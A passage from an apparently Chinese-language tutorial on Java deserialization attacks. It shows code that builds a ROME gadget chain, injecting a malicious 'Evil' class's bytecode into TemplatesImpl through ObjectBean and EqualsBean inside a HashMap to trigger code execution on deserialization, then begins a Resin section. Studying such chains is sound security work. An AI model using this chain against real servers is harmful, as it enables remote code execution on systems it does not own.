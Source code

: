         // 3. 构造 kick-off HashMap
        HashMap<Object, String> objectBeanStringHashMap = new HashMap<>();
        objectBeanStringHashMap.put(objectBean, "EndlessShw");
    
        // 4. 动态修改 ObjectBean 中的 EqualsBean
        Field equalsBeanField = objectBean.getClass().getDeclaredField("equalsBean");
        equalsBeanField.setAccessible(true);
        equalsBeanField.set(objectBean, equalsBean);
    
        String serialize = serialize(objectBeanStringHashMap);
        unSerialize(serialize);
    }
    // 直接返回 Rome 的 kick-off
    private Object getRomeObj() throws Exception{
        // 1. 读取恶意类 bytes[] 并 sink 构造
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.getCtClass("com.endlessshw.serialization.util.Evil");
        byte[] bytes = ctClass.toBytecode();
        TemplatesImpl templates = new TemplatesImpl();
        // 要求 1 - 注入恶意字节码
        Field bytecodesField = templates.getClass().getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        bytecodesField.set(templates, new byte[][]{bytes});
        // 要求 2 - 保证 _name 不为 null
        Field nameField = templates.getClass().getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "EndlessShw");
    
        // 2. 构造 chain，先让链断开
        ObjectBean objectBean = new ObjectBean(String.class, "EndlessShw");
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class, new ToStringBean(Templates.class, templates));
    
        // 3. 构造 kick-off HashMap
        HashMap<Object, String> objectBeanStringHashMap = new HashMap<>();
        objectBeanStringHashMap.put(objectBean, "EndlessShw");
    
        // 4. 动态修改 ObjectBean 中的 EqualsBean
        Field equalsBeanField = objectBean.getClass().getDeclaredField("equalsBean");
        equalsBeanField.setAccessible(true);
        equalsBeanField.set(objectBean, equalsBean);
    
        return objectBeanStringHashMap;
    }
    ```

### 5.3 Resin 

1. Resin 是一个轻量级的 Web 服务器，功能和 Tomcat 类似，但是比 Tomcat 还要轻量。其和 Hessian 都是同一家公司开发的。先考虑引入依赖：
    ```xml
    <!-- 这里版本和 Hessian 保持一致吧 -->
    <dependency>
        <groupId>com.caucho</groupId>
        <artifactId>resin</artifactId>
        <version>4.0.66</version>
    </dependency>
    ```
